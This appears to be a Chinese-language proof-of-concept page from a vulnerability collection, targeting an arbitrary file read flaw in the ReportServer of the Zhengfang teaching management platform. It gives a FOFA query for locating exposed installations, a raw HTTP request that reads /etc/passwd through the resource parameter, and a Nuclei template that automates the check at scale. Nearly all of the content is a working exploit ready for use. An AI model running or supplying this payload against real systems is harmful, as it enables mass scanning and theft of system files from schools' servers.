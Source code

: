 ## 正方教学管理信息服务平台ReportServer存在任意文件读取漏洞

## fofa
```
body="正方软件股份有限公司" && title="教学管理信息服务平台"
```

## poc
```
GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```
![b211abfd216e9904485e663877a1e747](https://github.com/wy876/POC/assets/139549762/97cb775c-c793-4384-9205-e718ea321f57)

## Nuclei脚本
```
id: zfjxgl-reportserver-anyfileread

info:
  name: zfjxgl-reportserver-anyfileread
  author: xxxx
  severity: high

http:
  - raw:
    - | 
      GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
      Host: {{Hostname}}
      Content-Type: text/plain
      Connection: close

    matchers:
      - type: dsl
        dsl:
         - status_code==200 && contains_all(body,"root")

```

